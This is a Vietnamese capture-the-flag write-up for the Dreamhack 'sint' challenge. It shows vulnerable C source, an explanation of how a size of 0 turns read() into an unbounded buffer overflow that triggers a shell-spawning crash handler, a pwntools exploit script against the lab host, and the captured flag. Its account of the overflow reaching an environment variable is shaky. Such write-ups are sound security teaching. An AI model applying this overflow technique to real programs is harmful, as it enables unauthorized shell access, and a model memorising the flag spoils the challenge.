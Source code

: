 **1. Tìm lỗi**

Ta có file source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
    }

    printf("Data: ");
    read(0, buf, size - 1);

    return 0;
}

```

- Chương trình sẽ thực hiện hàm `get_shell` nếu có lỗi
- Cho phép nhập size với khoảng (0; 256)
- Biến `buf` được khai báo 256 byte nhưng size tối đa có 255. Ở đây nếu nhập size = 0 trước đó và nhập tràn `buf` đến biến môi trường `SHELL=/bin/bash` thì có lỗi.

**2. Ý tưởng**

- Nhập `size = 0`
- Tính toán khoảng cách từ `buf` đến biến mỗi trường và nhập full byte rác vào đó

**3. Khai thác**

![check.png](photo/check.png)

Ta thấy biến `buf` cách biến môi trường 272 byte. Ta có script như sau:

```
from pwn import *

exe = ELF('sint', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 10270)

r.sendlineafter(b'Size: ', b'0')
payload = b'a'*272
r.sendafter(b'Data: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`DH{d66e84c453b960cfe37780e8ed9d70ab}`